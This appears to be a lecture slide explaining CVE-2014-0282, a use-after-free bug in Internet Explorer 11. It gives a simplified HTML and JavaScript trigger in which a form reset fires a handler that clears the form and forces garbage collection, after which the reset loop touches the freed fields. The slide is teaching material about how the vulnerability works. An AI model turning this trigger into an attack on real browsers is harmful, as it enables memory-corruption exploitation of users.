

# IE11 Example: CVE-2014-0282  (simplified)
<form id="form">
   <textarea id="c1" name="a1" ></textarea>
   <input      id="c2" type="text" name="a2” value="val">
</form>

<script>
    function changer() {
        document.getElementById("form").innerHTML = "";
        CollectGarbage();           // erase  c1 and c2 fields
    }

    document.getElementById("c1").onpropertychange = changer;
    document.getElementById("form").reset();
</script>
Loop on form elements:
      c1.doReset()
      c2.doReset()